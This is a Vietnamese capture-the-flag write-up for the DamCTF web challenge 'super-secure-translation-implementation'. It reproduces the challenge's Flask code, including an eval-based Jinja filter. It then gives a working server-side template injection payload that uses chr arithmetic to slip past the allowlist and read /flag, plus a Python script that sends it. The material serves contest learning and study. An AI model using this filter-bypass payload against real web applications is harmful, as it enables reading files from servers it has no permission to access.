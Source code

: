 ![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/4.png)
</br>
tôi rất là vui vì tôi solve lượt 6, đây là lần đầu trong một cuộc thi ctf có hơn 500 đội
![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/5.png)

bài này tác giả có cho `super-secure-translation-implementation.zip` một file zip để tải về nhưng thật ra bên trong chẳng có gì ngoài tệp __Dockerfile__ giúp ta xác định được vị trí của flag
</br> đây là giao diện của website khi ta vào
![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/6.png)
source code được hiển thị rõ
```@server.route("/")
@server.route("/<path>")
def index(path=""):
    # Show app.py source code on homepage, even if not requested.
    if path == "":
        path = "app.py"

    # Make this request hackproof, ensuring that only app.py is displayed.
    elif not os.path.exists(path) or "/" in path or ".." in path:
        path = "app.py"

    # User requested app.py, show that.
    with open(path, "r") as f:
        return render_template("index.html", code=f.read())
  ``` 
  Bằng cách chèn __/path__ giúp ta có thể đọc file trong thư mục __/chal__ vì dấu `..` và `/` đã bị filter nên không thể đọc bên ngoài thư mục __/chall__
  ```
from check import detect_remove_hacks
from filters import *
```
để ý đoạn này, tệp app.py có tham chiếu đến 2 file khác là __check.py__ và __filters.py__ vậy ta chỉ cần truy cập đến 
đường dẫn `https://super-secure-translation-implementation.chals.damctf.xyz/check.py` để đọc tệp __check.py__ 
![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/7.png)
và đường dẫn `https://super-secure-translation-implementation.chals.damctf.xyz/filters.py` để đọc tệp __filters.py__
![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/8.png)
</br>tóm tắt là chỉ cần chèn payload vào __/secure_translate?payload=__ để tấn công ssti và chỉ có một số ký tự được cho phép còn lại đều bị chặn
```  
allowlist = [
        "c", "{","}","d","6","l","(","b","o","r",")",'"',"1","4","+","h","u","-","*","e","|","'",
 ]
```
và ở tệp __app.py__ có những dòng lệnh này
```
server = Flask(__name__)

# Add filters to the jinja environment to add string
# manipulation capabilities
server.jinja_env.filters["u"] = uppercase
server.jinja_env.filters["l"] = lowercase
server.jinja_env.filters["b64d"] = b64d
server.jinja_env.filters["order"] = order
server.jinja_env.filters["ch"] = character
server.jinja_env.filters["e"] = e
```
tóm gọn là ý nghĩa rằng hàm e là __eval__ và hàm ch là __chr__, ta sẽ quan tâm một xíu ở hàm e (đọc file filters.py)
```
def e(x):
    # Security analysts reviewed this and said eval is unsafe (haters).
    # They would not approve this as "hack proof" unless I add some
    # checks to prevent easy exploits.

    print(f"Evaluating: {x}")

    forbidlist = [" ", "=", ";", "\n", ".globals", "exec"]

    for y in forbidlist:
        if y in x:
            return "Eval Failed: Foridlist."

    if x[0:4] == "open" or x[0:4] == "eval":
        return "Not That Easy ;)"

    try:
        return eval(x)
    except Exception as exc:
        return f"Eval Failed: {exc}"
```
4 ký tự đầu không được là __open__ và __exec__ , payload ban đầu của tôi là `{{(""+open('/flag').read())|e}}` để bypass filter tôi đã sửa thành `{{('""%2bo'%2b((111%2b1)|ch)%2b'e'%2b((111-1)|ch)%2b'("'%2b((46%2b1)|ch)%2b((114-11-1)|ch)%2b'l'%2b((46%2b46%2b6-1)|ch)%2b((114-11)|ch)%2b'")'%2b(46|ch)%2b're'%2b((46%2b46%2b6-1)|ch)%2b'd()')|e}}` độ dài payload 153, giới hạn độ dài của tác giả là 161
</br> và đây là
flag mà tôi tìm được __dam{p4infu1_all0wl1st_w3ll_don3}__
</br> cách giải của tôi. bài này mệt vl mất 1h
```

import requests
s = requests.session()
payload='''{{('""%2bo'%2b((111%2b1)|ch)%2b'e'%2b((111-1)|ch)%2b'("'%2b((46%2b1)|ch)%2b((114-11-1)|ch)%2b'l'%2b((46%2b46%2b6-1)|ch)%2b((114-11)|ch)%2b'")'%2b(46|ch)%2b're'%2b((46%2b46%2b6-1)|ch)%2b'd()')|e}}''' 

url = 'https://super-secure-translation-implementation.chals.damctf.xyz/secure_translate/?payload='+payload
res = s.get(url).text
print(res)
```

